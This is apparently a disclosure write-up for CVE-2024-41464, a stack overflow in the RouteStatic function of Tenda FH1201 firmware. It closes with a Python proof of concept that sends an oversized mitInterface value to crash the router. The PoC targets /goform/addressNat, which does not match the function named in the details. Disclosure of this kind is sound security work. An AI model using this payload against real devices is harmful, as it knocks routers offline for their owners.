 # RouteStatic2

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### CVE number

CVE-2024-41464

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a stack overflow vulnerability located in the RouteStatic function.The parameter mitInterface is copied to stackspace v6 via the sprintf function without checking the length,so an attacker can cause a denial of service attack by controlling the mitInterface parameter

![image-20240724100048396](./image-20240724100048396.png)

### poc

```python
import requests

ip = '192.168.74.145'

url = f"http://{ip}/goform/addressNat"

data = {"mitInterface": "a"*999}

ret = requests.post(url, data)

```



